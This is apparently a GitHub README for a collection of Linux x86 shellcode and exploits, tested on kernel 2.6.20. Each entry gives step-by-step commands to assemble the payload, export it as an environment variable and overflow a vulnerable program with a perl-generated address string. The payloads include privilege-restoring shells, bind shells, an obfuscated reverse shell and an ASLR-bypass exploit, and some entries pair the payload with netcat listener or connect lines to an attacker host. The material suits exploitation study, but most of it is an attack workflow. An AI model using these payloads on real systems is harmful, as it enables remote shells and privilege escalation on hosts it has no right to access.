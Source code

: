 # Raw Linux Shellcode

Some C and x86 Assembly code to build a shell-spawning shellcode from scratch

Tested on **Linux Kernel 2.6.20**


### List of files

#### getenvaddr.c

Get a (shellcode) environment variable address within a program
```
$ gcc -g -o getenvaddr getenvaddr.c
$ ./getenvaddr <env_var> <vuln_program>
```

#### exec_shell

Spawn a shell with execve()
```
$ nasm <exec_shell.s>
$ export SHELLCODE=$(cat exec_shell)
$ ./getenvaddr SHELLCODE ./<vuln_program>
$ ./vuln_program $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
```

#### priv_shell

Restore root privileges and spawn a shell
```
$ gcc -o drop_priv drop_priv.c
$ nasm <priv_shell.s>
$ export SHELLCODE=$(cat priv_shell)
$ ./getenvaddr SHELLCODE ./<drop_priv>
$ ./drop_priv $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
```

#### priv_shell2

Reviewed payload
```
$ gcc -o drop_priv drop_priv.c
$ nasm <priv_shell2.s>
$ export SHELLCODE=$(cat priv_shell2)
$ ./getenvaddr SHELLCODE ./<vuln_program>
$ ./drop_priv $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
```

#### bind_port

Create a TCP socket, bind to port 31337 and wait for clients
```
$ nasm <bind_port.s>
$ export SHELLCODE=$(cat bind_port)
$ ./getenvaddr SHELLCODE ./<vuln_program>
$ ./vuln_program $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
```

#### bind_shell

Bind a shell on port 31337
```
$ nasm <bind_shell.s>
$ export SHELLCODE=$(cat bind_shell)
$ ./getenvaddr SHELLCODE ./<vuln_program>
$ ./vuln_program $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
bad$ nc <IP> 31337  # connect to target
```

#### bind_shell2

Reviewed payload
```
$ nasm <bind_shell2.s>
$ export SHELLCODE=$(cat bind_shell2)
$ ./getenvaddr SHELLCODE ./<vuln_program>
$ ./vuln_program $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
bad$ nc <IP> 31337  # connect to target
```

#### reverse_shell

Connect back to <bad_IP>:31337 and open a shell
```
$ nasm <reverse_shell.s>
$ export SHELLCODE=$(cat reverse_shell)
$ ./getenvaddr SHELLCODE ./<vuln_program>
bad$ nc -lp 31337  # listen for victim
$ ./vuln_program $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
```

#### reverse_shell_obf

Obfuscated payload
```
$ nasm <reverse_shell_obf.s>
$ export SHELLCODE=$(cat reverse_shell_obf)
$ ./getenvaddr SHELLCODE ./<vuln_program>
bad$ nc -lp 31337  # listen for victim
$ ./vuln_program $(perl -e 'print "\xEF\xEB\xAD\xDE"x40;')
```

#### aslr_exploit

Exploit aslr_vuln program, bypass ASLR restriction and spawn a shell
```
$ gcc -o aslr_vuln aslr_vuln.c
$ gcc -o aslr_exploit aslr_exploit.c
$ ./aslr_exploit
```
